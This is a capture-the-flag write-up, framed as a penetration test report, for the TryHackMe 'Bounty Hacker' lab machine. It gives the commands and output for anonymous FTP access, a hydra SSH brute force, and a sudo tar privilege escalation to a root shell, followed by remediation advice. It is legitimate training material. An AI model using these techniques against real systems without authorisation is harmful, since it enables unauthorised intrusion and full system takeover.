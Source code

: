 # Bounty Hacker CTF


## Executive summary
Anonymous FTP Access: The system's FTP server permitted anonymous access, which could allow malicious actors to retrieve sensitive files, in this case, potential passwords and usernames.
SSH Vulnerability: A brute force attack on the SSH service using the revealed credentials was successful, indicating a weak password security mechanism in place.
Privilege Escalation: The system had misconfigured user permissions, enabling an authenticated user to gain full root access through command manipulation.

## **Penetration Testing Report**
### **Introduction:**

This report details the penetration test performed on the target system with IP address 10.10.207.64, known as "bounty-hacker" from the TryHackMe platform. Our objective was to identify vulnerabilities and exploit them to gain unauthorized access.

### **Scope:**
- **Date**: 9/28/2023
- **Target System**: 10.10.207.64
- **Platform**: TryHackMe
- **Challenge Name**: bounty-hacker

### **Findings:**

### 1. Service Enumeration:

Using the **`nmap`** scan, we identified three open ports:

```yaml
──(root㉿kali)-[~/bounty-hacker]
└─$ nmap -A -oN bounty_scan.txt 10.10.207.64
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 20:39 CEST
Nmap scan report for 10.10.207.64
Host is up (0.058s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.83
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.67 seconds
```

- 21/tcp: FTP (vsFTPd 3.0.3) with anonymous login allowed
- 22/tcp: SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.8)
- 80/tcp: HTTP (Apache httpd 2.4.18)

### 2. FTP Exploration:

Anonymous login was allowed on the FTP server. Files retrieved from the server:

```yaml
ftp> ls -l
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

- **`locks.txt`**: Possibly a list of passwords.
- **`task.txt`**: Contained tasks and revealed the username "***".
    
    ```yaml
    ┌──(root㉿kali)-[bounty-hacker]
    └─# cat task.
    ...    
    ```
    

### 3. Web Service Exploration:

**`gobuster`** identified the **`/images`** directory, but nothing of significant interest was found in this directory.

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://10.10.207.64                                                           
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.207.64/images/]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished

```

### 4. SSH Brute Force:

Using **`hydra`**, we performed a brute force attack on the SSH service with the username "***" and the password list from **`locks.txt`**. This successfully revealed the password for `***` as **`***`**.

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# hydra -l *** -P locks.txt 10.10.207.64 ssh -t 16                                                                                     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-28 21:04:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.207.64:22/
[22][ssh] host: 10.10.207.64   login: ***   password: ...
```

```yaml
┌──(root㉿kali)-[bounty-hacker]
└─# ssh ***@10.10.207.64
***@10.10.207.64's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)
```

### 5. Privilege Escalation:

```yaml
***@bountyhacker:~/Desktop$ sudo -l
[sudo] password for ***: 
Matching Defaults entries for *** on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User may run the following commands on bountyhacker:
    (root) /bin/tar
```

After gaining SSH access, we found that user "***" can run **`/bin/tar`** as root without a password, as revealed by **`sudo -l`**. By leveraging this, we executed **`tar`** with the **`--checkpoint-action=exec`** option to spawn a shell with root privileges.

```yaml
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
```

### **Conclusion:**

The system "bounty-hacker" had multiple vulnerabilities:

1. Anonymous FTP access that revealed potential usernames and password lists.
2. Weak password for the SSH user "***".
3. Misconfigured sudo permissions allowing the execution of **`tar`** as root.

Successfully exploiting these vulnerabilities allowed us to escalate privileges and obtain root access to the target system.

### **Recommendations:**

1. **Secure FTP**: Disable anonymous login on the FTP server and ensure that it uses only necessary accounts with strong, unique passwords.
2. **SSH Hardening**: Use strong and unique passwords. Consider implementing SSH keys for authentication and disabling password-based authentication.
3. **Sudo Permissions**: Review and restrict **`sudo`** permissions. Ensure users can only run necessary commands and avoid giving access to commands that can be exploited for privilege escalation.
4. **Regular Patching**: Ensure that all services and the operating system are updated regularly to avoid known vulnerabilities.

---

This report is a brief overview of the steps taken during the challenge and the vulnerabilities found. It's important to understand that in a real-world scenario, much more detailed documentation, including risk assessments and potential business impacts, would be required.